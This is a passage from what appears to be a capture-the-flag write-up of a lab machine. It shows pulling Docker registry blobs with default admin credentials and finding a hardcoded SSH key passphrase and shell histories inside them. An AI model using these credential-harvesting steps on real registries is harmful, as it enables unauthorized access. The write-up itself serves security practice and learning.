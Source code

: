 
### Blobs

We extract the list of blobs and redirect it to a file
`grep blob latest | cut -d '"' -f 4 > blob_list` then we download each blob
`while read l ; do wget --http-user=admin --http-password=admin
--no-check-certificate https://docker.registry.htb/v2/bolt-image/blobs/$l; done
< blob_list`.

The blob
`sha256:3f12770883a63c833eab7652242d55a95aea6e2ecd09e21c29d7d7b354f3d4ee` only
contain a file edited with Vim 8 (there is a vulnerability for this version). But
we do not have access to a Vim for the moment.

In the `sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b`
blob we found a `01-ssh.sh` file containing a password

    :::text
    #!/usr/bin/expect -f
    #eval `ssh-agent -s`
    spawn ssh-add /root/.ssh/id_rsa
    expect "Enter passphrase for /root/.ssh/id_rsa:"
    send "GkOcz221Ftb3ugog\n";
    expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
    interact

In the blob
`sha256:02666a14e1b55276ecb9812747cb1a95b78056f1d202b087d71096ca0b58c98c` we
found a `.bash_history` file not containing something interesting.

    :::text
    cd /root/
    ls -la
    >.bash_history
    ls -la
    cat .bashrc
    ls -la
    l .ssh/
    cat .viminfo
    > .viminfo
    ls -la

The blob
`sha256:8882c27f669ef315fc231f272965cd5ee8507c0f376855d6f9c012aae0224797`
contain a few files but nothing of interest.
The blob `` contain a `.bash_history` file.

    :::text
    s aux
    ps aux
    apt update
    apt install git
    apt install php
    php --ini |grep Loaded
    l /etc/php/
    l /etc/php/7.2/
    apt install nginx
    apt install php-fpm
    cd /var/www/html/
    ls -la
    rm -rf index.html
    mv index.nginx-debian.html index.html
    l
    git clone https://github.com/bolt/bolt.git
    l
    ls -la
    cd bolt/